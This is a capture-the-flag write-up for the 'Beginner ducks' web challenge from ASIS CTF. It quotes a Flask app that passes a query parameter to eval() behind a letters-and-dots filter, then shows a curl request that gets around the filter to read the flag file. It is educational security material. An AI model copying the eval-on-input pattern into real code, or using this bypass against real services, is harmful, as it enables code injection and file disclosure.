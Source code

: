 ```yaml
---
description: WEB | 37 pts - 176 solves
---
```


# Beginner ducks

> description: Hiiiii, welcome to ASIS CTF. We have ducks. Check them out http://ducks.asisctf.com:8000/. Download source-code from here.

Source code:

```python
#!/usr/bin/env python3
from flask import Flask,request,Response
import random
import re

app = Flask(__name__)
availableDucks = ['duckInABag','duckLookingAtAHacker','duckWithAFreeHugsSign']
indexTemplate = None
flag = None

@app.route('/duck')
def retDuck():
	what = request.args.get('what')
	duckInABag = './images/e146727ce27b9ed172e70d85b2da4736.jpeg'
	duckLookingAtAHacker = './images/591233537c16718427dc3c23429de172.jpeg'
	duckWithAFreeHugsSign = './images/25058ec9ffd96a8bcd4fcb28ef4ca72b.jpeg'

	if(not what or re.search(r'[^A-Za-z\.]',what)):
		return 'what?'

	with open(eval(what),'rb') as f:
		return Response(f.read(), mimetype='image/jpeg')

@app.route("/")
def index():
	return indexTemplate.replace('WHAT',random.choice(availableDucks))

with open('./index.html') as f:
	indexTemplate = f.read() 
with open('/flag.txt') as f:
	flag = f.read()

if(__name__ == '__main__'):
	app.run(port=8000)
```

It's clear that this `eval()` is dangerous, since it'll execute the python code that we pass to the `?what` parameter and return the result in the response. We can verify the vulnerability by running the code locally and passing to it the variable `duckInABag`, which evaluates to: `'./images/e146727ce27b9ed172e70d85b2da4736.jpeg'`, so code will be:

```python
	with open('./images/e146727ce27b9ed172e70d85b2da4736.jpeg','rb') as f:
		return Response(f.read(), mimetype='image/jpeg')
```

and therefore show us the image.\
There's some input filtering with the regex: `[^A-Za-z\.]`; it will only accept letters and the dot symbol. So how can we read `/flag.txt` if `/` isn't allowed?\
We can try to read the file descriptor properties. i.e: `f.buffer.name` will evaluate to: `/flag.txt`.

```shell
$ curl http://ducks.asisctf.com:8000/duck?what=f.buffer.name
ASIS{run-away-ducks-are-coming-🦆🦆}
```
